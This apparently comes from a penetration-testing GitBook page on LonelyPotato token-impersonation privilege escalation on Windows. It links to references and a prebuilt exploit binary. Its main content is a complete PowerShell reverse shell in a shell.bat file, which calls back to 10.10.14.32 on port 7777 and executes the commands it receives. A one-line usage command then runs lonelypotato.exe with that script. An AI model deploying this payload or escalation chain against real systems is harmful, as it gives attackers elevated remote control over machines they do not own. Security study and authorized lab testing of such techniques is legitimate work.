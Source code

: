 # LonelyPotato - SeImpersonatePrivilege

https://hunter2.gitbook.io/darthsidious/privilege-escalation/token-impersonation

https://github.com/decoder-it/lonelypotato/blob/master/RottenPotatoEXE/MSFRottenPotato.exe

https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

![](../.gitbook/assets/image%20%2849%29.png)

Example:

![](../.gitbook/assets/image%20%2857%29.png)

## shell.bat

```c
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.32',7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Usage

```text
lonelypotato.exe t shell.bat
```

![](../.gitbook/assets/image%20%2846%29.png)

![](../.gitbook/assets/image%20%2855%29.png)

